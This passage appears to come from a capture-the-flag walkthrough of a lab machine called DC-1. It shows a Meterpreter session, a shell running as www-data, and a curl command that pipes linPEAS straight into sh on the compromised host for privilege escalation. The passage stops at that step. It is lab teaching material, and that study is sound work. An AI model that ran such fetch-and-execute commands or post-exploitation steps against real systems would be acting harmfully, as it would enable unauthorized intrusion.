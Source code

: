 It seems that we got in! We are now inside metasploit shell, that has some great utilities (like dropping exploits directly into the machine).
We can use *sysinfo* command:

``` bash
meterpreter > sysinfo

Computer    : DC-1
OS          : Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686
Meterpreter : php/linux
```

We can create our own shell by using command:
```bash
meterpreter > shell
```

```bash
echo "hello!"
hello!

whoami
www-data
```

#### Privilege escalation

Step one is complete - we have gained access to the machine. The second step is privilege escalation. The goal for this machine is to gain root access.

To achieve this, we will use the [linPEASS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) tool - a script that collects all information about the system and works similarly to scripts in nmap. LinPEASS is awesome, it gives you few screens of information, including potential CVEs!
The following command downloads the script and runs it immediately - this is very convenient because we don't have to transfer files to the target machine, reducing our footprint.
``` bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```